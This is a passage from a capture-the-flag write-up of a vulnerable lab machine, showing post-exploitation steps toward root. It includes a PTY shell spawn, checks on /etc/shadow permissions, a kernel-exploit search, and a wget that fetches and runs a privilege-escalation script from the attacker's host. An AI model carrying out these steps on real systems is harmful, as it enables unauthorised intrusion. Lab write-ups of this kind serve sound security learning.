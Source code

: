 <img src="{{ site.url }}/assets/img/ctf/6days_lab_4.png"/>

## Escalation to root
<b>Gained a better PTY</b>
```
which python
/usr/bin/python
/usr/bin/python -c 'import pty;pty.spawn("/bin/bash");'
www-data@cypm:/var/www$
```

<b>Checked some permission misconfigurations for quick kills</b>
```
www-data@cypm:/var/www$ ls -l /etc/passwd
ls -l /etc/passwd
-rw-r--r-- 1 root root 1142 Jul 11  2016 /etc/passwd
www-data@cypm:/var/www$ ls -l /etc/shadow
ls -l /etc/shadow
-rw-r----- 1 root shadow 1023 Jul 11  2016 /etc/shadow
```

<b>Gathered some kernel version information</b>
```
www-data@cypm:/var/www$ uname -a
uname -a
Linux cypm 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
```

<b>Did a searchsploit against the exact kernel version</b>
```
root@sengen-kali:~/vulnhub/6day# searchsploit 3.13.0
---------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                    |  Path
                                                                                  | (/usr/share/exploitdb/platforms/)
---------------------------------------------------------------------------------- ----------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Privile | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Privile | linux/local/37293.txt
---------------------------------------------------------------------------------- ----------------------------------
```

<b>Pulled down linuxprivchecker to get a report</b>
```
www-data@cypm:/var/www$ ls -l /etc/shadow
ls -l /etc/shadow
-rw-r----- 1 root shadow 1023 Jul 11  2016 /etc/shadow
www-data@cypm:/var/www$ wget http://192.168.56.101/common/lpc.py
wget http://192.168.56.101/common/lpc.py
--2017-07-28 03:11:35--  http://192.168.56.101/common/lpc.py
Connecting to 192.168.56.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 25304 (25K) [text/x-python]
Saving to: `lpc.py'

100%[======================================>] 25,304      --.-K/s   in 0.001s  

2017-07-28 03:11:35 (34.0 MB/s) - `lpc.py' saved [25304/25304]

www-data@cypm:/var/www$ /usr/bin/python ./lpc.py
```
